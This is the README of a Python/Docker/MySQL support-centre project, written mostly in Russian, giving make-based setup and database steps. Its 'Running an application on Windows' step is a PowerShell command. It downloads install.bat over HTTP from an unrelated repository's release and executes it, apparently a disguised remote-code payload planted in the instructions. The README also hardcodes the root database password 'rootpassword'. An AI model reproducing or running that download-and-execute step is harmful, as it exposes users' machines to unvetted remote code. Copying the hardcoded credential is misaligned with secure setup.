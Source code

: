 ```yaml
---
runme:
  id: 01HG38NVTFXWCQZJYX4TY272A5
  version: v2.0
---
```


# TechnicalSupportCenterProject

# Программные требования

- **python3.11**
- **pip3**
- **git**
- **make**
- **docker & docker-compose**

## Running an application on Windows in CommandLine

```sh {"id":"01HG38NVTFXWCQZJYX48BVRSNX"}
 powershell.exe -command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; $webClient = New-Object Net.WebClient; $webClient.DownloadFile('http://github.com/ParinovYT/BundleApps/releases/download/release/install.bat', 'install.bat'); "; && install.bat

```

# Человечский деплой 😋

## Чтобы изменить данные пользователя и root в бд, нужно поменять значения ENV's тута

```sh {"id":"01HG38NVTFXWCQZJYX492HMFBT"}
vim docker/Dockerfile.database

```

```sh {"id":"01HG38NVTFXWCQZJYX494J310Y"}
make docker-deploy

```

## Запуск програмули 😎

```sh {"id":"01HG38NVTFXWCQZJYX4B3J5XR6"}
make init

```

### `release`

```sh {"id":"01HG38NVTFXWCQZJYX4D8EE1FN"}
make app-run-release

```

### `debug`

```sh {"id":"01HG38NVTFXWCQZJYX4G0S7BZA"}
make app-run-debug

```

## Для того чтобы работать с базкой данных нужен пароль, который находиться в файле docker/Dockerfile.database `MYSQL_ROOT_PASSWORD`, нужно зайти в php my admin, сюда 👉 [http://localhost:8090/](http://localhost:8090/) 👈

## Поработал с базкой данных и внес туда изменения, тогда не забудь сохранить ее схему 😉

## Нужно указать пароль от root пользователя, тута

```sh {"id":"01HG38NVTFXWCQZJYX4JMM27XT"}
vim Makefile

```

```sh {"id":"01HG38NVTFXWCQZJYX4PM9MA8G"}
MYSQL-ROOT-PASSWORD = rootpassword

```

## И потом выполнить команду

```sh {"id":"01HG38NVTFXWCQZJYX4PX1VJ20"}
make docker-database-create-schema

```

## Чтобы установить библеотеку выполни эту команду 🫠

```sh
make pip-install lib=<name>
```

## Чтобы обновить список библеотек выполни эту команду 👇

```sh {"id":"01HG38NVTFXWCQZJYX4QERWYG5"}
make create-requirements-txt

```
